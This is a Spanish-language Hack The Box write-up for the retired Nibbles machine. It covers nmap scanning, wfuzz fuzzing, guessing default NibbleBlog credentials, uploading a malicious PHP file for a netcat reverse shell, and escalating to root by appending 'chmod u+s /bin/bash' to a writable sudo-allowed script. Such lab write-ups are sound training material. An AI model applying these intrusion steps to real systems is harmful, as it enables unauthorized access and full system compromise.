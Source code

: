 ```yaml
---
layout: post
title:  "OSCP Path ~ Nibbles de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada NIBBLES siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, PHP, Password Guessing, NibbleBlog, Maquinas Retiradas, Writeup, Hacking
---
```


# Nibbles ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.75       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Procedemos a hechar un vistazo visual del puerto 80 o servicio HTTP
```bash
"Encontramos esta ruta en el codigo fuente /nibbleblog/"
```
Hacemos un pequeño fuzzing con la herramienta`Wfuzz`:
```bash
# wfuzz -c -L --hc=404  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  http://10.10.10.75/nibbleblog/FUZZ        
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.75/nibbleblog/FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                        
=====================================================================

000000062:   200        18 L     82 W       1353 Ch     "content"                                                                      
000000114:   200        20 L     104 W      1741 Ch     "themes"                                                                       
000000246:   200        22 L     126 W      2127 Ch     "admin"                                                                        
000000506:   200        30 L     214 W      3777 Ch     "plugins"                                                                      
000000884:   200        63 L     643 W      4624 Ch     "README"                                                                       
000000922:   200        27 L     181 W      3167 Ch     "languages"                                                                    
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing 
```
Chequeamos el `Wapalizzer` y nos reporta que esta construida en lenguaje `PHP` vamos a hechar un vistazo a las rutas encontradas:
En la ruta `/admin.php` encontramos un panel loguin.
En las demas rutas encontramos los recursos de la pagina web.

# Password Guessing
Nos montamos un pequeño diccionario para intentar advinar las credenciales por defecto:
```bash
admin
Administrator
root
{Nombre de la Box}
password
Password
Pass
```
Probamos con las credenciales que podrian ser contraseñas por defecto y obtenemos un resultado correcto para `admin:nibbles`.
Una vez dentro del panel del CMS NibbleBlog procedemos a apuntar a los plugins, mas concretamente al plugin de `My_Images`
Nos metemos en la opcion de `Configuracion` de ahi vemos que podemos subir archivos.

# File Upload ~ Vulnerability
Probamos a subir una archivo `Malicioso en PHP` y vemos que efectivamente se sube correctamente. Ahora apuntando a nuestro archivo en PHP para que se interprete
y con una session de `nc -vlnp 1234` abierta.. Recibimos la Conexion entrante. 

Direccion de nuestro archivo `"http://10.10.10.75/nibbleblog/content/private/plugins/my_image/"`

Entramos como el usuario:
```bash
# nc -vlnp 1234         
listening on [any] 1234 ...
connect to [10.10.15.4] from (UNKNOWN) [10.10.10.75] 48890
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:57:27 up 33 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
"nibbler"
```
Nos movemos al directorio `/home/` y pillamos la Flag del `User.txt`
```bash
nibbler@Nibbles:/home/nibbler$ ls
personal.zip  user.txt
```

# Escalada de privilegios
Procedemos a ver los privilegios que tenemos con el comando `sudo -l`
```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

"User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh"
```
Vemos que tenemos una archivo llamado `monitor.sh` el cual podemos ejecutar como `root` sin proporcionar contraseña.
Procedemos a usar el comando `unzip` para descomprimir el archivo encontrado `personal.zip`
```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
"Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh"
```
Ya tenemos el archivo `monitor.sh` vamos a ver si podemos modificarlo para luego poder ejecutarlo como `root`:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la monitor.sh 
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```
Vemos que si, asique porque no vamos a meterle un comando para escalar privilegios cuando Nosotros como `root` ejecutemos el archivo encuestion.
Metemos este Comando `chmod u+s /bin/bash` al final de `monitor.sh`
Procedemos a ejecutar el archivo como root:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
```
Comprobamos si nos ha hecho el comando como root y si la `/bin/bash` tiene ahora permisos SUID para hacer un `bash -p` y convertirnos en root.
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```
Nos convertimos a `root`:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root/
bash-4.3# cat root.txt 
5ad46c3fceb79f2a7407ceexxxxxxxxxxxxxx
```

Maquina Rooteada =) Seguimos Full Hacks
